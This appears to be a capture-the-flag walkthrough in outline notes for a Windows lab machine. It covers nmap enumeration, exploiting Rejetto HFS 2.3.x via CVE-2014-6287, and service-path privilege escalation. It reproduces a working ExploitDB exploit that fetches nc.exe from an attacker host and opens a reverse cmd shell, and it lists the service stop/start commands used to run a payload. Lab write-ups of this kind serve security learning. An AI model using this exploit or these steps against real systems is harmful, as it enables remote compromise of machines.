 - ### Scanning & Enumeration
	- **nmap** results
		- Fast Scan
			- ![Screenshot 2024-07-28 230303.png](../assets/Screenshot_2024-07-28_230303_1722314700844_0.png)
		- In-Depth Scan
			- ![Screenshot 2024-07-28 230406.png](../assets/Screenshot_2024-07-28_230406_1722314726653_0.png)
			- ![Screenshot 2024-07-28 230332.png](../assets/Screenshot_2024-07-28_230332_1722314739671_0.png)
			- ![Screenshot 2024-07-28 230346.png](../assets/Screenshot_2024-07-28_230346_1722314747620_0.png){:height 285, :width 578}
		- A *Regetto HTTP file server* is served on port `8080`
			- Version - `2.3.x` - vulnerable to `CVE-2014-6287`
- ### Initial Access
	- `auto` with Metasploit
		- ![Screenshot 2024-07-28 230454.png](../assets/Screenshot_2024-07-28_230454_1722315028320_0.png)
		- ![Screenshot 2024-07-28 230511.png](../assets/Screenshot_2024-07-28_230511_1722315042571_0.png)
		- ![Screenshot 2024-07-28 230524.png](../assets/Screenshot_2024-07-28_230524_1722315058227_0.png)
		- ![Screenshot 2024-07-28 230534.png](../assets/Screenshot_2024-07-28_230534_1722315071953_0.png)
	- `manual` without Metasploit
		- Use the `Python2` script from `ExploitDB` - https://www.exploit-db.com/exploits/

    			```
			  #!/usr/bin/python2
			  # Exploit Title: HttpFileServer 2.3.x Remote Command Execution
			  # Google Dork: intext:"httpfileserver 2.3"
			  # Date: 04-01-2016
			  # Remote: Yes
			  # Exploit Author: Avinash Kumar Thapa aka "-Acid"
			  # Vendor Homepage: http://rejetto.com/
			  # Software Link: http://sourceforge.net/projects/hfs/
			  # Version: 2.3.x
			  # Tested on: Windows Server 2008 , Windows 8, Windows 7
			  # CVE : CVE-2014-6287
			  # Description: You can use HFS (HTTP File Server) to send and receive files.
			  #	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
			  #	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
			   
			  #Usage : python Exploit.py <Target IP address> <Target Port Number>
			  
			  #EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
			  #          You may need to run it multiple times for success!
			  
			  
			  import urllib2
			  import sys
			  
			  try:
			  	def script_create():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")
			  
			  	def execute_script():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")
			  
			  	def nc_run():
			  		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")
			  
			  	ip_addr = "192.168.44.128" #attack IP address
			  	local_port = "443" # attack Port number
			  	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
			  	save= "save|" + vbs
			  	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
			  	exe= "exec|"+vbs2
			  	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
			  	exe1= "exec|"+vbs3
			  	script_create()
			  	execute_script()
			  	nc_run()
			  except:
			  	print """[.]Something went wrong..!
			  	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
			  	Don't forgot to change the Local IP address and Port number on the script"""
			  	
			              
			  ```
			-
		- An `HTTP` server must be running on the attacker machine so that the script can `GET` the `nc.exe` binary
		  collapsed:: true
			- ![Screenshot 2024-07-30 092901.png](../assets/Screenshot_2024-07-30_092901_1722315984876_0.png)
		- Using the `nc.exe` binary the script will connect back the listener
			- ![Screenshot 2024-07-30 092909.png](../assets/Screenshot_2024-07-30_092909_1722315995005_0.png)
		- The script is run twice for both of the above actions to take place
			- ![Screenshot 2024-07-30 092917.png](../assets/Screenshot_2024-07-30_092917_1722316037939_0.png)
- ### Privilege Escalation
	- `auto` Metasploit
		- Upload `PowerUp.ps1` script to search for *privesc* vectors
			- ![Screenshot 2024-07-28 231504.png](../assets/Screenshot_2024-07-28_231504_1722315224891_0.png)
		- Run `Invoke-AllChecks` to run the script
			- ![Screenshot 2024-07-28 231736.png](../assets/Screenshot_2024-07-28_231736_1722315270611_0.png)
		- Generate `reverse_tcp` payload
			- ![Screenshot 2024-07-28 232318.png](../assets/Screenshot_2024-07-28_232318_1722315333480_0.png)
		- Stop the vulnerable service & Upload the payload [in the execution path of the service]
			- ![Screenshot 2024-07-29 095301.png](../assets/Screenshot_2024-07-29_095301_1722315415555_0.png)
		- Start the service with a running `netcat` listener to capture the shell
			- ![Screenshot 2024-07-29 095353.png](../assets/Screenshot_2024-07-29_095353_1722315482525_0.png)
			- ![Screenshot 2024-07-29 095415.png](../assets/Screenshot_2024-07-29_095415_1722315501627_0.png)
			- ![Screenshot 2024-07-29 095521.png](../assets/Screenshot_2024-07-29_095521_1722315510795_0.png)
	- `manual`
		- For enumeration of `privesc` vectors -> use `WinPEAS`
			- ![Screenshot 2024-07-30 093656.png](../assets/Screenshot_2024-07-30_093656_1722316144315_0.png)
			- ![Screenshot 2024-07-30 093702.png](../assets/Screenshot_2024-07-30_093702_1722316150991_0.png)
		- On running `WinPEAS`
		  collapsed:: true
			- ![Screenshot 2024-07-30 094010.png](../assets/Screenshot_2024-07-30_094010_1722316216532_0.png)
			- ![Screenshot 2024-07-30 093934.png](../assets/Screenshot_2024-07-30_093934_1722316191389_0.png)
			- ![Screenshot 2024-07-30 093951.png](../assets/Screenshot_2024-07-30_093951_1722316199532_0.png)
		- Stop the running service - `sc stop AdvancedSystemCareService9`
		- Get the payload executable from the our HTTP server
			- ![Screenshot 2024-07-30 094950.png](../assets/Screenshot_2024-07-30_094950_1722316303431_0.png)
		- Start the service with the payload in execution path - `sc start AdvancedSystemCareService9`
			- ![124.png](../assets/124_1722316495566_0.png){:height 220, :width 578}
			- ![123.png](../assets/123_1722316551686_0.png)
